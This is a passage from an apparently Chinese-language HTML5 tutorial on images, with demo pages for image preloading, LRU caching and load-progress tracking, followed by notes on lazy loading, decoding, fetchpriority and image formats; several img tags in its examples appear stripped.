      padding: 10px 20px;
      border: none;
      border-radius: 8px;
      font-size: 14px;
      font-weight: 600;
      cursor: pointer;
      transition: all 0.2s;
    }

    .btn-primary {
      background: linear-gradient(135deg, #0066cc, #0052a3);
      color: white;
    }

    .btn-primary:hover:not(:disabled) {
      transform: translateY(-1px);
      box-shadow: 0 4px 12px rgba(0,102,204,0.3);
    }

    .btn-success {
      background: linear-gradient(135deg, #28a745, #20883d);
      color: white;
    }

    .btn-warning {
      background: linear-gradient(135deg, #fd7e14, #e67e22);
      color: white;
    }

    .btn-danger {
      background: linear-gradient(135deg, #dc3545, #c82333);
      color: white;
    }

    .btn:disabled { opacity: 0.5; cursor: not-allowed; }


    /* 图片画廊 */
    .gallery-section {
      background: white;
      border-radius: 12px;
      padding: 24px;
      margin-bottom: 24px;
      box-shadow: 0 2px 12px rgba(0,0,0,0.06);
    }

    .gallery-section h3 {
      font-size: 17px;
      color: #333;
      margin-bottom: 16px;
    }

    .gallery-grid {
      display: grid;
      grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
      gap: 16px;
    }

    .gallery-item {
      background: #f8f9fa;
      border-radius: 10px;
      overflow: hidden;
      position: relative;
      aspect-ratio: 1;
    }

    .gallery-item img {
      width: 100%;
      height: 100%;
      object-fit: cover;
      transition: transform 0.3s;
    }

    .gallery-item:hover img { transform: scale(1.05); }

    /* 加载状态 */
    .item-status {
      position: absolute;
      bottom: 0;
      left: 0;
      right: 0;
      padding: 8px 12px;
      background: rgba(0,0,0,0.7);
      color: white;
      font-size: 11px;
      text-align: center;
    }

    .status-loading { background: rgba(253,126,20,0.9); }
    .status-loaded { background: rgba(40,167,69,0.9); }
    .status-error { background: rgba(220,53,69,0.9); }
    .status-cached { background: rgba(102,126,234,0.9); }

    /* 缓存统计 */
    .stats-grid {
      display: grid;
      grid-template-columns: repeat(auto-fit, minmax(180px, 1fr));
      gap: 16px;
      margin-top: 20px;
    }

    .stat-card {
      background: white;
      padding: 18px;
      border-radius: 10px;
      text-align: center;
      box-shadow: 0 2px 8px rgba(0,0,0,0.06);
    }

    .stat-value {
      font-size: 32px;
      font-weight: 700;
      color: #0066cc;
    }

    .stat-label {
      font-size: 12px;
      color: #888;
      margin-top: 4px;
      text-transform: uppercase;
    }

    /* 日志区域 */
    .log-area {
      background: #1e1e1e;
      color: #d4d4d4;
      padding: 16px;
      border-radius: 8px;
      max-height: 220px;
      overflow-y: auto;
      font-family: 'Monaco', 'Menlo', monospace;
      font-size: 12px;
      line-height: 1.8;
      margin-top: 20px;
    }

    .log-entry { padding: 2px 0; border-bottom: 1px solid #333; }
    .log-time { color: #6a9955; }
    .log-type-info { color: #569cd6; }
    .log-type-success { color: #4ec970; }
    .log-type-warn { color: #dcdcaa; }
    .log-type-error { color: #f44747; }

    /* 代码展示 */
    .code-block {
      background: #1e1e1e;
      color: #d4d4d4;
      padding: 16px 20px;
      border-radius: 8px;
      font-family: 'Monaco', monospace;
      font-size: 12px;
      line-height: 1.7;
      overflow-x: auto;
      margin-top: 16px;
    }
    .tag { color: #569cd6; }
    .attr { color: #9cdcfe; }
    .value { color: #ce9178; }
    .comment { color: #6a9955; }
    .keyword { color: #c586c0; }
    .function { color: #dcdcaa; }
  </style>
</head>
<body>

  <div class="container">
    <h1>🚀 ImagePreloader</h1>
    <p class="subtitle">企业级图像预加载管理器 — 缓存、批量预加载、LRU 淘汰</p>


    <!-- 控制面板 -->
    <div class="control-panel">
      <h3>⚙️ 预加载控制</h3>

      <div class="controls-row">
        <button class="btn btn-primary" onclick="preloadSingle()">
          📷 预加载单张
        </button>

        <button class="btn btn-success" onclick="preloadBatch()">
          📦 批量预加载
        </button>

        <button class="btn btn-warning" onclick="preloadIdle()">
          💤 空闲时预加载
        </button>

        <button class="btn btn-danger" onclick="clearCache()">
          🗑️ 清空缓存
        </button>

        <span style="color:#888;font-size:13px;margin-left:auto;">
          缓存容量上限：<strong id="cacheLimit">50</strong> 张
        </span>
      </div>
    </div>


    <!-- 图片画廊 -->
    <div class="gallery-section">
      <h3>🖼️ 预加载演示图库</h3>
      <p style="color:#666;font-size:13px;margin-bottom:14px;">
        点击「批量预加载」后，观察每张图片的加载状态变化。已缓存的图片会瞬间显示。
      </p>

      <div class="gallery-grid" id="galleryGrid">
        <!-- 由 JavaScript 动态生成 -->
      </div>
    </div>


    <!-- 统计面板 -->
    <div class="stats-grid">
      <div class="stat-card">
        <div class="stat-value" id="statTotal">0</div>
        <div class="stat-label">总图片数</div>
      </div>
      <div class="stat-card">
        <div class="stat-value" style="color:#28a745;" id="statCached">0</div>
        <div class="stat-label">已缓存</div>
      </div>
      <div class="stat-card">
        <div class="stat-value" style="color:#fd7e14;" id="statLoading">0</div>
        <div class="stat-label">加载中</div>
      </div>
      <div class="stat-card">
        <div class="stat-value" style="color:#dc3545;" id="statError">0</div>
        <div class="stat-label">失败数</div>
      </div>
    </div>


    <!-- 日志输出 -->
    <div class="control-panel">
      <h3>📋 预加载日志</h3>
      <div class="log-area" id="logArea">
        <div class="log-entry">
          <span class="log-time">[系统]</span>
          <span class="log-type-info">[INFO]</span>
          ImagePreloader 初始化完成，等待操作...
        </div>
      </div>
    </div>


    <!-- 核心代码展示 -->
    <div class="control-panel">
      <h3>💻 核心 API 使用示例</h3>
      <div class="code-block">
<span class="comment">// 创建预加载器实例（最大缓存 30 张）</span>
<span class="keyword">const</span> preloader = <span class="keyword">new</span> <span class="function">ImagePreloader</span>({ maxCacheSize: <span class="number">30</span> })

<span class="comment">// 场景 1：预加载单张图片</span>
<span class="keyword">const</span> img = <span class="keyword">await</span> preloader.<span class="function">preload</span>(<span class="string">'photo.jpg'</span>)
console.<span class="function">log</span>(img.naturalWidth, img.naturalHeight)

<span class="comment">// 场景 2：鼠标悬停时预加载下一张轮播图</span>
carouselContainer.<span class="function">addEventListener</span>(<span class="string">'mouseenter'</span>, () => {
  preloader.<span class="function">preload</span>(nextSlideImageUrl)
})

<span class="comment">// 场景 3：页面空闲时批量预加载后续资源</span>
<span class="keyword">if</span> (<span class="string">'requestIdleCallback'</span> <span class="keyword">in</span> window) {
  requestIdleCallback(<span class="keyword">async</span> () => {
    <span class="keyword">await</span> preloader.<span class="function">preloadBatch</span>([
      <span class="string">'/images/slide-2.webp'</span>,
      <span class="string">'/images/slide-3.webp'</span>,
      <span class="string">'/images/slide-4.webp'</span>,
    ])
  })
}
      </div>
    </div>

  </div>

  <script>
    /**
     * ImagePreloader - 企业级图像预加载管理器
     *
     * 功能：
     * - 单张/批量图像预加载与缓存管理
     * - LRU 淘汰策略防止内存溢出
     * - 完整的状态追踪和日志记录
     */
    class ImagePreloader {
      constructor(options = {}) {
        this.cache = new Map()           // url → HTMLImageElement
        this.maxCacheSize = options.maxCacheSize || 50

        // 状态统计
        this.stats = { total: 0, cached: 0, loading: 0, error: 0 }

        this.log = this.log.bind(this)
      }

      /**
       * 预加载单张图片
       */
      preload(url) {
        return new Promise((resolve, reject) => {
          // 命中缓存直接返回
          if (this.cache.has(url)) {
            this.log('success', `✓ 命中缓存: ${this.shortenUrl(url)}`)
            this.updateStats()
            resolve(this.cache.get(url))
            return
          }

          const img = new Image()

          img.onload = () => {
            this._addToCache(url, img)
            this.log('success', `✓ 加载完成: ${this.shortenUrl(url)} (${img.naturalWidth}×${img.naturalHeight})`)
            this.updateStats()
            resolve(img)
          }

          img.onerror = () => {
            this.stats.error++
            this.log('error', `✗ 加载失败: ${url}`)
            this.updateStats()
            reject(new Error(`Image load failed: ${url}`))
          }

          this.stats.loading++
          this.log('info', `⏳ 开始加载: ${this.shortenUrl(url)}`)

          img.src = url
        })
      }

      /**
       * 批量预加载
       */
      async preloadBatch(urls) {
        this.log('info', `📦 开始批量预加载 ${urls.length} 张图片...`)

        const results = await Promise.allSettled(
          urls.map(url => this.preload(url))
        )

        const successCount = results.filter(r => r.status === 'fulfilled').length
        const failCount = results.length - successCount

        this.log('success', `📦 批量预加载完成: 成功 ${successCount} / 失败 ${failCount}`)
        return results
      }

      /** LRU 淘汰策略 */
      _addToCache(url, img) {
        if (this.cache.size >= this.maxCacheSize) {
          // 淘汰最早缓存的条目
          const firstKey = this.cache.keys().next().value
          this.cache.delete(firstKey)
          this.stats.cached--
        }

        this.cache.set(url, img)
        this.stats.cached++
        this.stats.loading = Math.max(0, this.stats.loading - 1)
      }

      clearCache() {
        this.cache.clear()
        this.stats.cached = 0
        this.log('warn', '🗑️ 缓存已清空')
        this.updateStats()
      }

      shortenUrl(url) {
        return url.length > 40 ? url.slice(0, 37) + '...' : url
      }

      log(type, message) {
        const time = new Date().toLocaleTimeString()
        console.log(`[${time}] [${type.toUpperCase()}] ${message}`)

        const entry = document.createElement('div')
        entry.className = 'log-entry'
        entry.innerHTML = `
          <span class="log-time">[${time}]</span>
          <span class="log-type-${type}">[${type.toUpperCase()}]</span>
          <span>${message}</span>
        `

        document.getElementById('logArea').appendChild(entry)
        document.getElementById('logArea').scrollTop = document.getElementById('logArea').scrollHeight
      }

      updateStats() {
        document.getElementById('statTotal').textContent = this.stats.total
        document.getElementById('statCached').textContent = this.stats.cached
        document.getElementById('statLoading').textContent = this.stats.loading
        document.getElementById('statError').textContent = this.stats.error
      }
    }


    // ====== 全局初始化 ======

    const preloader = new ImagePreloader({ maxCacheSize: 30 })

    // 图库 URL 列表
    const imageUrls = []
    for (let i = 1; i <= 12; i++) {
      imageUrls.push(`https://picsum.photos/300/300?random=${i + 50}`)
    }

    preloader.stats.total = imageUrls.length


    // ====== 渲染图库 ======

    function renderGallery() {
      const grid = document.getElementById('galleryGrid')
      grid.innerHTML = ''

      imageUrls.forEach((url, index) => {
        const item = document.createElement('div')
        item.className = 'gallery-item'
        item.id = `img-${index}`
        item.innerHTML = `
          
          <div class="item-status status-loading" id="status-${index}">⏳ 等待加载</div>
        `
        grid.appendChild(item)
      })

      preloader.updateStats()
    }

    function onImageLoaded(index) {
      const statusEl = document.getElementById(`status-${index}`)
      if (statusEl && preloader.cache.has(imageUrls[index])) {
        statusEl.className = 'item-status status-cached'
        statusEl.textContent = '⚡ 来自缓存'
      } else {
        statusEl.className = 'item-status status-loaded'
        statusEl.textContent = '✅ 已加载'
      }
    }


    // ====== 控制按钮事件 ======

    async function preloadSingle() {
      const randomIndex = Math.floor(Math.random() * imageUrls.length)
      try {
        await preloader.preload(imageUrls[randomIndex])
        const statusEl = document.getElementById(`status-${randomIndex}`)
        if (statusEl) {
          statusEl.className = 'item-status status-cached'
          statusEl.textContent = '⚡ 已预缓存'
        }
      } catch (e) {
        // 已在 preload 中处理错误日志
      }
    }

    async function preloadBatch() {
      await preloader.preloadBatch(imageUrls)

      // 更新所有状态
      for (let i = 0; i < imageUrls.length; i++) {
        const statusEl = document.getElementById(`status-${i}`)
        if (preloader.cache.has(imageUrls[i])) {
          statusEl.className = 'item-status status-cached'
          statusEl.textContent = '⚡ 来自缓存'
        }
      }
    }

    function preloadIdle() {
      if ('requestIdleCallback' in window) {
        preloader.log('info', '💤 注册空闲回调，将在浏览器空闲时执行...')
        requestIdleCallback(() => preloadBatch())
      } else {
        preloader.log('warn', '当前浏览器不支持 requestIdleCallback，立即执行')
        preloadBatch()
      }
    }

    function clearCache() {
      preloader.clearCache()

      // 重置所有状态显示
      for (let i = 0; i < imageUrls.length; i++) {
        const statusEl = document.getElementById(`status-${i}`)
        if (statusEl) {
          statusEl.className = 'item-status status-loading'
          statusEl.textContent = '⏳ 等待加载'
        }
      }
    }


    // 页面加载完成后渲染图库
    renderGallery()

  </script>

</body>
</html>
```


<h4>036-image-preload.html</h4>

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>【36】Image() 构造函数预加载</title>
  <!--
    来源: HTML5基础知识/5-图像.md
    知识点: Image() 构造函数预加载、批量预载、加载进度追踪
  -->
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      padding: 20px; background: #0f172a; color: #e2e8f0;
      min-height: 100vh;
    }
    .container { max-width: 1000px; margin: 0 auto; }
    .header {
      text-align: center; padding: 24px; background: linear-gradient(135deg, #0ea5e9, #06b6d4);
      color: white; border-radius: 12px; margin-bottom: 24px;
    }
    .header h1 { font-size: 22px; margin-bottom: 6px; }
    .header p { opacity: 0.9; font-size: 14px; }

    .card {
      background: #1e293b; border: 1px solid #334155; border-radius: 10px;
      padding: 24px; margin-bottom: 20px;
    }
    .card-title {
      font-size: 15px; font-weight: 600; color: #38bdf8;
      border-left: 3px solid #38bdf8; padding-left: 10px; margin-bottom: 16px;
    }

    .info-banner {
      background: rgba(14,165,233,0.1); border: 1px solid rgba(14,165,233,0.25);
      border-radius: 6px; padding: 12px 16px; font-size: 13px; line-height: 1.6;
      color: #7dd3fc; margin-bottom: 16px;
    }

    .controls { display: flex; gap: 10px; flex-wrap: wrap; margin-bottom: 20px; align-items: center; }
    label { font-size: 13px; color: #94a3b8; }
    select {
      padding: 8px 12px; background: #0f172a; border: 1px solid #475569;
      color: #e2e8f0; border-radius: 6px; font-size: 13px;
    }
    select:focus { outline: none; border-color: #38bdf8; }

    .btn {
      padding: 9px 20px; border: none; border-radius: 6px; cursor: pointer;
      font-size: 13px; font-weight: 600; transition: all 0.2s;
    }
    .btn-cyan { background: #0ea5e9; color: white; }
    .btn-cyan:hover { background: #0284c7; transform: translateY(-1px); }
    .btn-cyan:disabled { opacity: 0.4; cursor: not-allowed; transform: none !important; }
    .btn-red { background: #ef4444; color: white; }
    .btn-red:hover { background: #dc2626; }

    /* 进度条 */
    .progress-section { margin-bottom: 20px; }
    .progress-header { display: flex; justify-content: space-between; font-size: 13px; color: #94a3b8; margin-bottom: 6px; }
    .progress-track {
      height: 12px; background: #334155; border-radius: 6px; overflow: hidden;
    }
    .progress-fill {
      height: 100%; background: linear-gradient(90deg, #0ea5e9, #06b6d4);
      border-radius: 6px; transition: width 0.3s ease; width: 0%;
      display: flex; align-items: center; justify-content: center;
      font-size: 10px; font-weight: 700; color: white; min-width: 36px;
    }

    /* 图片网格 */
    .image-grid {
      display: grid; grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
      gap: 14px; margin-top: 16px;
    }
    .image-item {
      background: #0f172a; border: 1px solid #334155; border-radius: 8px;
      overflow: hidden; transition: all 0.3s;
    }
    .image-item.loaded { border-color: #22c55e; }
    .image-item.error { border-color: #ef4444; }
    .image-item.loading { border-color: #f59e0b; }

    .item-status-bar {
      height: 3px;
    }
    .item-status-bar.pending { background: #475569; }
    .item-status-bar.loading { background: linear-gradient(90deg,#f59e0b,#fbbf24); animation: shimmer 1.5s infinite; }
    .item-status-bar.done { background: #22c55e; }
    .item-status-bar.fail { background: #ef4444; }

    @keyframes shimmer { 0%{opacity:.5}50%{opacity:1}100%{opacity:.5} }

    .item-preview {
      height: 130px; display: flex; align-items: center; justify-content: center;
      background: #1e293b; position: relative;
    }
    .item-preview img {
      max-width: 100%; max-height: 120px; object-fit: cover; border-radius: 4px;
    }
    .item-placeholder {
      color: #475569; font-size: 28px;
    }
    .item-info {
      padding: 10px 12px; font-size: 11px; color: #94a3b8;
    }
    .item-name {
      font-weight: 600; color: #e2e8f0; font-size: 12px;
      margin-bottom: 4px; overflow: hidden; text-overflow: ellipsis; white-space: nowrap;
    }
    .item-meta { display: flex; justify-content: space-between; }

    /* 统计 */
    .stats-row {
      display: grid; grid-template-columns: repeat(4, 1fr); gap: 12px;
      margin-top: 16px;
    }
    .stat-box {
      background: #0f172a; border: 1px solid #334155; border-radius: 8px;
      padding: 14px; text-align: center;
    }
    .stat-val { font-size: 22px; font-weight: 700; }
    .stat-val.cyan { color: #38bdf8; }
    .stat-val.green { color: #22c55e; }
    .stat-val.red { color: #ef4444; }
    .stat-val.yellow { color: #f59e0b; }
    .stat-lbl { font-size: 11px; color: #64748b; margin-top: 4px; }

    /* 日志 */
    .log-area {
      background: #0f172a; border-radius: 6px; padding: 14px;
      font-family: monospace; font-size: 11px; max-height: 180px;
      overflow-y: auto; color: #64748b; line-height: 1.7; margin-top: 16px;
    }
    .log-entry.ok { color: #22c55e; }
    .log-entry.err { color: #ef4444; }
    .log-entry.info { color: #38bdf8; }
    .log-entry.warn { color: #f59e0b; }

    .compat-note {
      background: rgba(245,158,11,0.1); border: 1px solid rgba(245,158,11,0.25);
      border-radius: 6px; padding: 10px 14px; font-size: 12px; color: #fbbf24;
      margin-top: 16px;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="header">
      <h1>⚡ Image() 构造函数预加载</h1>
      <p>批量预载图片 + 加载进度追踪 — 提升用户体验的关键技术</p>
    </div>

    <div class="card">
      <div class="card-title">🎯 预加载控制台</div>
      <div class="info-banner">
        💡 <strong>原理：</strong>使用 <code>new Image()</code> 创建图片对象并设置 <code>src</code>，
        浏览器会在后台下载并缓存图片。通过 <code>onload</code>/<code>onerror</code> 事件追踪每张图片的加载状态。<br>
        预加载完成后，后续实际使用该 URL 的 &lt;img&gt; 标签会直接从缓存读取，实现瞬间显示。
      </div>

      <div class="controls">
        <label>选择图片集:</label>
        <select id="imageSet" onchange="changeSet()">
          <option value="nature">自然风景 (6张)</option>
          <option value="tech">科技抽象 (8张)</option>
          <option value="mixed">混合尺寸 (10张)</option>
        </select>
        <button class="btn btn-cyan" id="preloadBtn" onclick="startPreload()">▶ 开始批量预加载</button>
        <button class="btn btn-red" onclick="clearPreload()">🗑 清空重置</button>
      </div>

      <!-- 总体进度 -->
      <div class="progress-section">
        <div class="progress-header">
          <span>总体加载进度</span>
          <span id="progressText">0 / 0</span>
        </div>
        <div class="progress-track">
          <div class="progress-fill" id="progressFill">0%</div>
        </div>
      </div>

      <!-- 图片列表 -->
      <div class="image-grid" id="imageGrid"></div>

      <!-- 统计 -->
      <div class="stats-row">
        <div class="stat-box">
          <div class="stat-val cyan" id="statTotal">0</div>
          <div class="stat-lbl">总数量</div>
        </div>
        <div class="stat-box">
          <div class="stat-val green" id="statLoaded">0</div>
          <div class="stat-lbl">已加载 ✓</div>
        </div>
        <div class="stat-box">
          <div class="stat-val red" id="statFailed">0</div>
          <div class="stat-lbl">失败 ✗</div>
        </div>
        <div class="stat-box">
          <div class="stat-val yellow" id="statTime">-</div>
          <div class="stat-lbl">总耗时</div>
        </div>
      </div>

      <!-- 日志 -->
      <div class="log-area" id="logArea">
        <div class="log-entry info">[系统] Image() 预加载系统就绪，选择图片集后点击开始...</div>
      </div>

      <div class="compat-note">
        ⚠️ <strong>兼容性：</strong><code>new Image()</code> 在所有浏览器中均完全支持（包括 IE）。
        这是最古老且兼容性最好的图片预加载方式。
      </div>
    </div>
  </div>

  <script>
    // ====== 图片数据集 ======
    const imageSets = {
      nature: [
        { name: '山脉日出', url: 'https://picsum.photos/seed/mountain1/400/300' },
        { name: '森林小径', url: 'https://picsum.photos/seed/forest2/400/300' },
        { name: '海边日落', url: 'https://picsum.photos/seed/ocean3/400/300' },
        { name: '星空银河', url: 'https://picsum.photos/seed/star4/400/300' },
        { name: '瀑布溪流', url: 'https://picsum.photos/seed/waterfall5/400/300' },
        { name: '草原花海', url: 'https://picsum.photos/seed/meadow6/400/300' },
      ],
      tech: [
        { name: '电路板', url: 'https://picsum.photos/seed/circuit1/400/300' },
        { name: '数据流', url: 'https://picsum.photos/seed/dataflow2/400/300' },
        { name: '网络节点', url: 'https://picsum.photos/seed/network3/400/300' },
        { name: '代码屏幕', url: 'https://picsum.photos/seed/code4/400/300' },
        { name: '服务器机房', url: 'https://picsum.photos/seed/server5/400/300' },
        { name: '光纤连接', url: 'https://picsum.photos/seed/fiber6/400/300' },
        { name: 'AI 大脑', url: 'https://picsum.photos/seed/ai7/400/300' },
        { name: '量子计算', url: 'https://picsum.photos/seed/quantum8/400/300' },
      ],
      mixed: [
        { name: '大图横版', url: 'https://picsum.photos/seed/big1/800/450' },
        { name: '小图头像', url: 'https://picsum.photos/seed/avatar2/100/100' },
        { name: '竖图海报', url: 'https://picsum.photos/seed/poster3/300/500' },
        { name: '正方形', url: 'https://picsum.photos/seed/square4/400/400' },
        { name: '超宽横幅', url: 'https://picsum.photos/seed/banner5/1200/200' },
        { name: '缩略图', url: 'https://picsum.photos/seed/thumb6/60/60' },
        { name: '高清壁纸', url: 'https://picsum.photos/seed/wallpaper7/1920/1080' },
        { name: '图标大小', url: 'https://picsum.photos/seed/icon8/48/48' },
        { name: '中等尺寸', url: 'https://picsum.photos/seed/medium9/600/400' },
        { name: '自定义比例', url: 'https://picsum.photos/seed/custom10/350/550' },
      ],
    };

    let currentImages = [];
    let loadedCount = 0;
    let failedCount = 0;
    let startTime = null;

    const logArea = document.getElementById('logArea');
    const imageGrid = document.getElementById('imageGrid');

    function log(msg, cls = '') {
      const div = document.createElement('div');
      div.className = `log-entry ${cls}`;
      div.textContent = `[${new Date().toTimeString().substring(0,8)}] ${msg}`;
      logArea.appendChild(div);
      logArea.scrollTop = logArea.scrollHeight;
    }

    function changeSet() {
      const setKey = document.getElementById('imageSet').value;
      currentImages = [...imageSets[setKey]];
      renderGrid();
      resetStats();
      log(`已切换到图片集: ${setKey} (${currentImages.length} 张)`, 'info');
    }

    function renderGrid() {
      imageGrid.innerHTML = '';
      currentImages.forEach((img, i) => {
        const item = document.createElement('div');
        item.className = 'image-item';
        item.id = `item-${i}`;
        item.innerHTML = `
          <div class="item-status-bar pending"></div>
          <div class="item-preview">
            <span class="item-placeholder">⏳</span>
          </div>
          <div class="item-info">
            <div class="item-name">${img.name}</div>
            <div class="item-meta">
              <span>${img.url.match(/\\/\\d+\\/\\d+$/)?.[0]?.replace(/\//g,'×') || '?'}</span>
              <span class="status-text">等待</span>
            </div>
          </div>
        `;
        imageGrid.appendChild(item);
      });
    }

    function resetStats() {
      loadedCount = 0; failedCount = 0; startTime = null;
      document.getElementById('statTotal').textContent = currentImages.length;
      document.getElementById('statLoaded').textContent = '0';
      document.getElementById('statFailed').textContent = '0';
      document.getElementById('statTime').textContent = '-';
      document.getElementById('progressFill').style.width = '0%';
      document.getElementById('progressFill').textContent = '0%';
      document.getElementById('progressText').textContent = `0 / ${currentImages.length}`;
    }

    function updateProgress() {
      const total = currentImages.length;
      const done = loadedCount + failedCount;
      const pct = total > 0 ? Math.round((done / total) * 100) : 0;

      document.getElementById('progressFill').style.width = `${pct}%`;
      document.getElementById('progressFill').textContent = `${pct}%`;
      document.getElementById('progressText').textContent = `${done} / ${total}`;
      document.getElementById('statLoaded').textContent = loadedCount;
      document.getElementById('statFailed').textContent = failedCount;

      if (startTime && done === total) {
        const elapsed = ((performance.now() - startTime) / 1000).toFixed(2);
        document.getElementById('statTime').textContent = `${elapsed}s`;
      }
    }

    function startPreload() {
      const btn = document.getElementById('preloadBtn');
      btn.disabled = true;

      resetStats();
      startTime = performance.now();
      log(`▶ 开始批量预加载 ${currentImages.length} 张图片...`, 'info');

      currentImages.forEach((imgData, index) => {
        const item = document.getElementById(`item-${index}`);
        const statusBar = item.querySelector('.item-status-bar');
        const preview = item.querySelector('.item-preview');
        const statusText = item.querySelector('.status-text');

        // 更新为加载中状态
        item.className = 'image-item loading';
        statusBar.className = 'item-status-bar loading';
        preview.innerHTML = '<span class="item-placeholder">🔄</span>';
        statusText.textContent = '加载中...';

        // 使用 Image() 构造函数预加载
        const img = new Image();

        img.onload = function() {
          loadedCount++;
          item.className = 'image-item loaded';
          statusBar.className = 'item-status-bar done';

          // 显示预览图
          preview.innerHTML = ``;
          statusText.textContent = `${((performance.now() - startTime)/1000).toFixed(1)}s`;

          log(`✅ [#${index+1}] "${imgData.name}" 加载完成`, 'ok');
          updateProgress();
        };

        img.onerror = function() {
          failedCount++;
          item.className = 'image-item error';
          statusBar.className = 'item-status-bar fail';
          preview.innerHTML = '<span class="item-placeholder">✗</span>';
          statusText.textContent = '失败';

          log(`✗ [#${index+1}] "${imgData.name}" 加载失败`, 'err');
          updateProgress();
        };

        // 触发下载
        img.src = imgData.url;
      });
    }

    function clearPreload() {
      renderGrid();
      resetStats();
      document.getElementById('preloadBtn').disabled = false;
      log('已清空，可重新选择图片集并预加载', 'info');
    }

    // 初始化
    changeSet();
  </script>
</body>
</html>
```

### 懒加载（Lazy Loading）

`loading` 属性可以延迟加载图像，直到图像即将进入视口，从而提升页面加载性能。

```html
<!-- 懒加载（推荐用于非首屏图像） -->


<!-- 立即加载（默认，用于首屏关键图像） -->

```

**最佳实践：**

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>图像懒加载</title>
  </head>
  <body>
    <!-- 首屏图像：立即加载 -->
    

    <!-- 内容图像：懒加载 -->
    <article>
      
      
    </article>

    <!-- 图库：懒加载 -->
    <div class="gallery">
      
      
      
    </div>
  </body>
</html>
```

#### 图像加载生命周期状态机

理解图像从开始加载到最终渲染（或失败）的完整状态转换，有助于编写更健壮的图像处理逻辑：



::: tip **实际应用**
- 在 `Loading` 状态可显示**骨架屏**或**模糊占位图（LQIP）**
- 在 `Error` 状态应显示**降级图片**或**错误提示**
- `Painted` 状态后可触发**入场动画**或移除**占位符**
:::

### decoding 属性

`decoding` 属性控制图像解码方式，影响图像渲染性能。

```html
<!-- 异步解码（推荐，不阻塞页面渲染） -->


<!-- 同步解码（阻塞渲染，直到图像解码完成） -->


<!-- 自动（浏览器决定，默认） -->

```

### fetchpriority 属性

`fetchpriority` 属性提示浏览器图像的加载优先级。

```html
<!-- 高优先级（用于首屏关键图像） -->


<!-- 低优先级（用于非关键图像） -->

```

### 图像格式优化

选择合适的图像格式可以显著减小文件大小：

| 格式 | 特点                 | 适用场景           |
| ---- | -------------------- | ------------------ |
| JPEG | 有损压缩，文件小     | 照片、复杂图像     |
| PNG  | 无损压缩，支持透明   | 图标、简单图像     |
| WebP | 现代格式，压缩率高   | 现代浏览器（推荐） |
| AVIF | 最新格式，压缩率最高 | 最新浏览器         |
| SVG  | 矢量图，可缩放       | 图标、简单图形     |

**使用 picture 元素提供多种格式：**

```html
<picture>
  <source type="image/avif" srcset="image.avif" />
  <source type="image/webp" srcset="image.webp" />
  
</picture>
```

### 前端工程中的图像优化策略

- 在构建阶段使用压缩工具批量压缩图片，减少体积
- 对于图标和简单图形优先考虑 SVG，提升清晰度和复用性
- 为首屏关键图像配合 `preload` 或关键 CSS，保证主要内容尽快可见
- 控制列表页首屏图片数量，避免一次性加载过多非必要资源
- 为静态不常变化的图片配置长期缓存，通过文件名哈希控制更新
- 对用户上传等动态图片结合 CDN 与按需裁剪服务，按终端尺寸返回合适大小

### 图像预加载

对于关键图像资源，可以使用 `<link rel="preload">` 进行预加载，提前告知浏览器优先获取：

```html
<head>
  <!-- 预加载关键图像 -->
  <link rel="preload" as="image" href="hero.jpg" />
  <link rel="preload" as="image" href="logo.webp" type="image/webp" />
</head>
```

**注意事项：**

- 仅预加载首屏关键图像，避免过度预加载浪费带宽
- 预加载的图像会在页面解析时立即开始加载
- 配合 `imagesrcset` 和 `imagesizes` 实现响应式预加载

```html
<link
  rel="preload"
  as="image"
  href="hero-small.jpg"
  imagesrcset="hero-small.jpg 400w, hero-medium.jpg 800w, hero-large.jpg 1200w"
  imagesizes="(max-width: 600px) 100vw, 800px" />
```

## 现代图像 API 深度解析

现代浏览器提供了一系列强大的 JavaScript API，用于精细控制图像的加载、解码和处理流程。掌握这些 API 可以显著提升复杂场景下的图像性能。

<h4>037-image-decode.html</h4>

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>【37】decode() 异步解码对比实验</title>
  <!--
    来源: HTML5基础知识/5-图像.md
    知识点: decode() 异步解码避免阻塞渲染的对比实验
  -->
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      padding: 20px; background: #fefce8; color: #333;
      min-height: 100vh;
    }
    .container { max-width: 1050px; margin: 0 auto; }
    .header {
      text-align: center; padding: 24px; background: linear-gradient(135deg, #f59e0b, #d97706);
      color: white; border-radius: 12px; margin-bottom: 24px;
    }
    .header h1 { font-size: 22px; margin-bottom: 6px; }
    .header p { opacity: 0.9; font-size: 14px; }

    .card {
      background: white; border-radius: 10px; padding: 24px;
      margin-bottom: 20px; box-shadow: 0 2px 10px rgba(0,0,0,0.05);
    }
    .card-title {
      font-size: 15px; font-weight: 600; color: #d97706;
      border-left: 3px solid #f59e0b; padding-left: 10px; margin-bottom: 16px;
    }

    .info-banner {
      background: #fef3c7; border-left: 4px solid #f59e0b;
      padding: 12px 16px; border-radius: 4px; font-size: 13px;
      line-height: 1.6; color: #92400e; margin-bottom: 16px;
    }

    .compare-grid { display: grid; grid-template-columns: 1fr 1fr; gap: 20px; }
    @media (max-width: 700px) { .compare-grid { grid-template-columns: 1fr; } }

    .compare-col {
      border: 2px solid #e5e7eb; border-radius: 10px; overflow: hidden;
    }
    .col-header {
      padding: 12px 16px; font-weight: 700; font-size: 14px; text-align: center;
    }
    .col-header.without { background: #fee2e2; color: #991b1b; }
    .col-header.with { background: #dcfce7; color: #166534; }
    .col-body { padding: 16px; min-height: 260px; background: #fafaf9; }

    .display-area {
      background: #f3f4f6; border-radius: 8px; padding: 16px;
      min-height: 160px; display: flex; align-items: center; justify-content: center;
      margin-bottom: 12px;
    }
    .display-area img { max-width: 100%; max-height: 150px; border-radius: 6px; object-fit: contain; }
    .placeholder-text { color: #9ca3af; font-size: 13px; }

    .metrics { display: grid; grid-template-columns: 1fr 1fr; gap: 8px; }
    .metric {
      background: white; border: 1px solid #e5e7eb; border-radius: 6px;
      padding: 8px 10px; text-align: center;
    }
